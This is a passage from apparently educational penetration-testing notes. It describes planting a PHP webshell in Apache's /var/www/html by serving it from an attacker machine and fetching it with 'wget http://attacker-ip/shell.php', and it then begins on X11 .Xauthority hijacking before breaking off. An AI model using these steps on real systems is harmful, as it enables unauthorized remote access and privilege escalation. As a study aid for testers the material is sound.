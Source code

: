 And if Apache is run under root, then we can insert a webshell in the root directory of Apache. In Linux its under

```
/var/www/html/
```

Any webshell works. Download the example webshell below to your own machine

```
https://github.com/artyuum/Simple-PHP-Web-Shell
```

then start a python webserver to server the shell

```
python3 -m http.server
```

From the compromised machine, download and place it under the apache directory

```
cd /var/www/html
wget http://attacker-ip/shell.php
```

After the download is successful, Navigate to the ip address of the compromised machine using the browser and open the shell. It will look like below !\[\[apache-shell.png]]

#### Privilege escalation through X11 authorization

The X Window System (aka X) is a windowing system for bitmap displays, which is common on UNIX-based operating systems. X provides the basic framework for a GUI based environment.The X Window System (aka X) is a windowing system for bitmap displays, which is common on UNIX-based operating systems. X provides the basic framework for a GUI based environment.

When there is `.XAuthority` file in the home directory of one of the users, it means there is X11 authorization running so the potential here is that we can connect the running display impersonating the user the cookie is assigned to.

But first a couple enumeration steps are necessary.

**Getting the display ID**

```
user@machine:/home/user$ w
```

And a typical output would be

```
21:24:58 up 1:39, 1 user, load average: 0.00, 0.00, 0.00 
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT 
admin tty7 :0 19:45 1:39m 9.01s 0.04s /usr/libexec/gn
```

The above shows that the display is connected to `admin`

**Getting more details on the display**

\[1]
